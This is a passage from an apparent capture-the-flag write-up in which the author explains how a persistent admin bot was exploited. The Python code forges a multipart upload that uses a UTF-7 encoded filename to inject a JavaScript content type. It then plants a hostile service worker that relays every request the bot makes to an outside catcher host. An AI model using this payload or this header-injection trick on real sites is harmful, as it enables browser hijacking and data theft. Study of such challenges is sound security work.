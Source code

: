 

## Part II: Service Workers to Rescue


From the beginning, my idea was to send the bot to our XSS. 
The goal was for the code to open a new tab (tab 2), while tab 1 would run `history.back()` to go back to the flag UUID. 
Then, since both tabs are same-origin, I planned to access tab 1 from tab 2 using `window.opener`. 
It didn’t work. 
After that, I tried reading the `referrer` and other random approaches.
None of those approaches worked and I noticed that the `attachment` in the regular GET request like the flag check has implications such as not writing to the `referrer` or not having a `window.opener` because it triggers a direct download.
After some unsuccessful tries and 40 minutes of my life, I remembered the unique bot per team and the persistent `user-data-dir`.
At that moment, I remembered service workers. 
It took me one or two minutes to confirm that they also work for navigation requests.
After writing the code for the Service Worker (cough cough asking ChatGPT), uploading the file with the injection, and adding a header with `Content-Type: text/javascript` while commenting out the headers that were in the middle before the content to avoid crashing the code, the following is the same as the code used before.

```python3
def upload_file(upload_token):
    # Content-type: text/javascript
    # two newlines and '/*'
    shitty = "UTF-7''A+AAo-content-type:+ACA-text/javascript+AAo-+AAo-/+ACo-+AAo-"
    boundary = '----WebKitFormBoundaryUSM2sYqEa97vq9gr'
    
    body = (
        f'--{boundary}\r\n'
        'Content-Disposition: form-data; name="upload_token"\r\n\r\n'
        f'{upload_token}\r\n'
        f'--{boundary}\r\n'
        f'Content-Disposition: form-data; name="upload"; filename*={shitty}\r\n'
        'Content-Type: image/jpeg\r\n\r\n'
        """*/ 
            self.addEventListener('install', event => {
              // Activate immediately after installation
              event.waitUntil(self.skipWaiting());
            });
            
            self.addEventListener('activate', event => {
              // Take control of all clients immediately
              event.waitUntil(self.clients.claim());
            });
            
            self.addEventListener('fetch', event => {
              const url = new URL(event.request.url);
            
              // Construct new URL using montibus.serveo.net but keeping the path and query
              const proxyUrl = `https://requestcatcher.bubu.com?${url.pathname}${url.search}`;
            
              event.respondWith(
                fetch(proxyUrl).catch(err => {
                  return fetch(event.request);
                })
              );
            });



        \r\n"""
        f'--{boundary}--\r\n'
```